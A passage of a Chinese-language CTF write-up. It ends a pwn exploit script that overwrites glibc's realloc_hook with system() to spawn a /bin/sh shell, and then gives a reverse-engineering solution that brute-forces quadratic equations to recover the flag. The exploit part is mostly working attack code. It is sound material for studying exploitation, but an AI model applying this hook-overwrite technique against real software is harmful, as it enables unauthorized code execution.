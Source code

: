 ```
#step5 realloc_hook -> system
change_title(p64(realloc_hook) + '\n')
change_comment(p64(system_addr))

#step6 reset chance & content -> /bin/sh
change_title(p64(0x602050) + p64(binsh_addr) + '\n')
change_comment(p64(0))

#step7 realloc(content , size) => realloc_hook(binsh_addr) => system('/bin/sh\x00')
p.recvuntil('option--->>')
p.sendline('2')
p.recvuntil('(64-256):')
p.sendline('')          #size doesn't matter

#Get Shell & Have Fun
p.interactive()
```

## Re
### simple
一个安卓题目，简单题，java 层做了一些数学运算，总结一下就是一元二次方程，我懒得解，反正128种可能，直接爆破就好了。

```
a = [0, 146527998, 205327308, 94243885, 138810487, 408218567, 77866117, 71548549, 563255818, 559010506, 449018203, 576200653, 307283021, 467607947, 314806739, 341420795, 341420795, 469998524, 417733494, 342206934, 392460324, 382290309, 185532945, 364788505, 210058699, 198137551, 360748557, 440064477, 319861317, 676258995, 389214123, 829768461, 534844356, 427514172, 864054312]
b = [13710, 46393, 49151, 36900, 59564, 35883, 3517, 52957, 1509, 61207, 63274, 27694, 20932, 37997, 22069, 8438, 33995, 53298, 16908, 30902, 64602, 64028, 29629, 26537, 12026, 31610, 48639, 19968, 45654, 51972, 64956, 45293, 64752, 37108]
c = [38129, 57355, 22538, 47767, 8940, 4975, 27050, 56102, 21796, 41174, 63445, 53454, 28762, 59215, 16407, 64340, 37644, 59896, 41276, 25896, 27501, 38944, 37039, 38213, 61842, 43497, 9221, 9879, 14436, 60468, 19926, 47198, 8406, 64666]
d = [0, -341994984, -370404060, -257581614, -494024809, -135267265, 54930974, -155841406, 540422378, -107286502, -128056922, 265261633, 275964257, 119059597, 202392013, 283676377, 126284124, -68971076, 261217574, 197555158, -12893337, -10293675, 93868075, 121661845, 167461231, 123220255, 221507, 258914772, 180963987, 107841171, 41609001, 276531381, 169983906, 276158562]
result = [0]
# a[i] == b[i] * bak_input[i] * bak_input[i] + c[i] * bak_input[i] + d[i]
# a[i + 1] == b[i] * bak_input[i + 1] * bak_input[i + 1] + c[i] * bak_input[i + 1] + d[i])
 
for i in range(34):
    for j in range(127):
        if a[i + 1] == b[i] * j * j + c[i] * j + d[i]:
            result.append(j)
print result
 
flag = ""
for r in result:
    flag += chr(r)
print flag
# flag{MAth_i&_GOOd_DON7_90V_7hInK?}
```
